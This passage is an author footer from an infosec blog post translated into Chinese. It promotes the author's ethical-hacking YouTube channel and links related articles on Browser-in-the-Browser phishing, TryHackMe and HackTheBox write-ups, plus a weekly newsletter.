[https://github.com/surya-dev-singh/](https://github.com/surya-dev-singh/)

你们可以订阅我🙌在 YouTube 上:**我在那里发布演练和其他道德黑客相关的视频。**

[](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) [## Kryolite 安全公司

### 你好世界！在 Kryolite Security 上，你可以找到关于道德黑客、网络安全、渗透测试、CTFs 的视频…

www.youtube.com](https://www.youtube.com/channel/UCNKXlqfPevPg2Cv1R5YZ6Jw) [](https://systemweakness.com/dark-web-introduction-8d965a8e68e2) [## 黑暗之网游戏攻略

### 这将是黑暗网络纪录片系列的第一篇博客

systemweakness.com](https://systemweakness.com/dark-web-introduction-8d965a8e68e2) [](/bitb-browser-in-the-browser-attack-e2008c405701) [## BITB(浏览器中的浏览器)攻击

### 使用 BITB 攻击使网络钓鱼几乎不可检测！！

infosecwriteups.com](/bitb-browser-in-the-browser-attack-e2008c405701) [](https://systemweakness.com/attacktive-directory-tryhackme-90465c2d48ea) [## 攻击目录—利用易受攻击的域控制器[TryHackMe]

### 99%的企业网络使用 AD。但是您能利用易受攻击的域控制器吗？

systemweakness.com](https://systemweakness.com/attacktive-directory-tryhackme-90465c2d48ea) [](/hackthebox-canvas-ctf-writeup-75b0f4682ef5) [## HackTheBox 画布 CTF 特写

### 描述:

infosecwriteups.com](/hackthebox-canvas-ctf-writeup-75b0f4682ef5) 

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！